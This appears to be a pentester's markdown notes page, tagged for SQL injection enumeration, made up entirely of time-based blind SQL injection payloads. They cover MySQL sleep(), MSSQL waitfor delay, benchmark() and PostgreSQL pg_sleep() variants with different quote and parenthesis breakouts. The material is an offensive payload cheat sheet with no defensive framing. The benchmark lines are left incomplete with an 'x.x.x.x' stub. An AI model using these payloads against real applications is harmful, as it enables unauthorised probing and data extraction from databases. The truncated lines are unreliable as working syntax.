 ```yaml
---
tags: 🔻 🔻/Enumeration/sqlinjection blindsql
aliases: Hacking Notes
---
```

# Blind SQL

sleep(\_\_TIME\_\_)#  
1 or sleep(\_\_TIME\_\_)#  
" or sleep(\_\_TIME\_\_)#  
' or sleep(\_\_TIME\_\_)#  
" or sleep(\_\_TIME\_\_)="  
' or sleep(\_\_TIME\_\_)='  
1) or sleep(\_\_TIME\_\_)#  
") or sleep(\_\_TIME\_\_)="  
') or sleep(\_\_TIME\_\_)='  
1)) or sleep(\_\_TIME\_\_)#  
")) or sleep(\_\_TIME\_\_)="  
')) or sleep(\_\_TIME\_\_)='  
;waitfor delay '0:0:\_\_TIME\_\_'--  
);waitfor delay '0:0:\_\_TIME\_\_'--  
';waitfor delay '0:0:\_\_TIME\_\_'--  
";waitfor delay '0:0:\_\_TIME\_\_'--  
');waitfor delay '0:0:\_\_TIME\_\_'--  
");waitfor delay '0:0:\_\_TIME\_\_'--  
));waitfor delay '0:0:\_\_TIME\_\_'--  
'));waitfor delay '0:0:\_\_TIME\_\_'--  
"));waitfor delay '0:0:\_\_TIME\_\_'--  
benchmark(x.x.x.x  
1 or benchmark(x.x.x.x  
" or benchmark(x.x.x.x  
' or benchmark(x.x.x.x  
1) or benchmark(x.x.x.x  
") or benchmark(x.x.x.x  
') or benchmark(x.x.x.x  
1)) or benchmark(x.x.x.x  
")) or benchmark(x.x.x.x  
')) or benchmark(x.x.x.x  
pg\_sleep(\_\_TIME\_\_)--  
1 or pg\_sleep(\_\_TIME\_\_)--  
" or pg\_sleep(\_\_TIME\_\_)--  
' or pg\_sleep(\_\_TIME\_\_)--  
1) or pg\_sleep(\_\_TIME\_\_)--  
") or pg\_sleep(\_\_TIME\_\_)--  
') or pg\_sleep(\_\_TIME\_\_)--  
1)) or pg\_sleep(\_\_TIME\_\_)--  
")) or pg\_sleep(\_\_TIME\_\_)--  
')) or pg\_sleep(\_\_TIME\_\_)--